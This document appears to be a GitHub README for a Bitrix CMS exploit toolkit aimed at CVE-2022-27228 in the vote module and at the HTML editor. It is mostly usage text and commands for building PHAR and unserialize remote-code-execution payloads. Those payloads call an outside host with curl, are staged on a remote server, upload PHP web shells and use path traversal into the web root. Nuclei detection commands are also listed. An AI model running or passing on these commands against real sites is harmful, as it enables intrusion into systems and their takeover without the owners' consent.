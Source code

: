 # bitrix-exploits


## vote

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27228

```
usage: vote.py [-h] -u url -p payload [-a user_agent] [-x proxy] {unserialize,upload} ...

Bitrix Vote module exploit

positional arguments:
  {unserialize,upload}

optional arguments:
  -h, --help            show this help message and exit
  -u url, --url url     target URL
  -p payload, --payload payload
                        path to payload file
  -a user_agent, --user-agent user_agent
                        User-Agent header
  -x proxy, --proxy proxy
                        Proxy URL
```

### detect

```sh
nuclei -list targets.txt -templates ./nuclei/vote.yaml
```


### unserialize mode

Exploit Nginx or Apache setup using PHAR deserialization:

```sh
php -d phar.readonly=0 gadgets.php rce1 system 'curl XXXXXXXX.bzn.pw' payload.phar
python3 vote.py -u http://target unserialize -p ./payload.phar -x http://localhost:8080
```

⚠️ Payload extension must be ".phar"

### upload mode

Exploit Apache setup using `.htaccess` and shell upload:

```sh
python3 vote.py -u http://target upload -p ./shell.jpg -x http://localhost:8080
```

⚠️ Payload extension must not be ".php"

## html\_editor

```
usage: html_editor.py [-h] -u url [-a user_agent] [-x proxy] {unserialize,upload} ...

Bitrix HTML editor action exploit

positional arguments:
  {unserialize,upload}

optional arguments:
  -h, --help            show this help message and exit
  -u url, --url url     target URL
  -a user_agent, --user-agent user_agent
                        User-Agent header
  -x proxy, --proxy proxy
                        Proxy URL
```

### detect

```sh
nuclei -list targets.txt -templates ./nuclei/html_editor.yaml -var bznpw=http://XXXXXXXX.bzn.pw
```

### unserialize mode

```
usage: html_editor.py unserialize [-h] -p payload

optional arguments:
  -h, --help            show this help message and exit
  -p payload, --payload payload
                        HTTP URL which returns unserialize payload
```

Exploit using unserialize RCE payload located on remote server.

```sh
# Create unserialize payload
php gadgets.php rce1 system 'curl XXXXXXXX.bzn.pw' raw > payload

# Place payload on remote server (for example using sonar)
sonar new test && sonar http new -p test -P /test -f payload

# Exploit will trigger unserialze() on payload from remote server
python3 html_editor.py -u http://target -x http://localhost:8080 unserialize -p http://XXXXXXX.bzn.pw/test
```

### upload mode

⚠️ For old Bitrix versions where "unserialize" mode is not working 

Exploit using upload PHP file and path traversal in unserialze payload located on remote server.

```
usage: html_editor.py upload [-h] -p payload -f file

optional arguments:
  -h, --help            show this help message and exit
  -p payload, --payload payload
                        HTTP URL which returns unserialize payload
  -f file, --file file  Path to php file to upload
```

```sh
# Place traverse payload on remote server (for example using sonar)
sonar new test
sonar http new -p test -P /test $(php -r 'echo serialize(["id" => "../../../../../../../../../../../../var/www/html/"]);')

# Exploit will upload file shell.php to directory "../../../../../../../../../../../../var/www/html/"
python3 html_editor.py -u http://target -x http://localhost:8080 upload -p http://XXXXXXX.bzn.pw/test -f shell.php
```
